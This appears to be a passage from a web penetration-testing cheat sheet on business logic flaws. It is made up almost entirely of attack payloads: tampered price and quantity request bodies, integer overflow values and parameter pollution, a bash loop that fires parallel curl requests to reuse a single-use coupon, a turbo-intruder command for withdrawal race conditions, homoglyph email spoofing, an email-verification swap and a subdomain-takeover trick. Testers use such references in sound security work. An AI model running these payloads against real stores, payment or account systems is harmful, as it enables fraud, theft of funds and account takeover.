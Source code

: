 
## 4. Business Logic Flaws {#business-logic}

### Price Manipulation

```bash
# Negative quantity
POST /cart/add
{"product_id": 1, "quantity": -5, "price": 100}

# Decimal exploitation
{"amount": 0.001}

# Currency manipulation
{"price": 100, "currency": "USD"} -> {"price": 1, "currency": "USD"}

# Integer overflow
{"quantity": 2147483647}

# Array manipulation
price[]=0.01&price[]=original_price
```

### Race Conditions in Transactions

```bash
# Parallel requests for coupon usage
for i in {1..100}; do
    curl -X POST https://target.com/apply-coupon -H "Cookie: session=SESS" -d "coupon=SINGLE_USE" &
done

# Withdraw money from same balance
# Send 100 simultaneous requests to withdraw $10 from account with $10 balance

# Race condition exploit script
python3 turbo-intruder.py -u https://target.com/withdraw -d "amount=100" -t 50
```

### Account Creation Logic Flaws

```bash
# Unicode normalization
admin@domain.com vs аdmin@domain.com (Cyrillic 'а')

# Email verification bypass
Register: victim@domain.com
Before verify, change to: attacker@domain.com
Verify email goes to victim but account belongs to attacker

# Subdomain takeover for email verification
Register: user@subdomain.target.com
Take over subdomain.target.com
Receive verification email
```
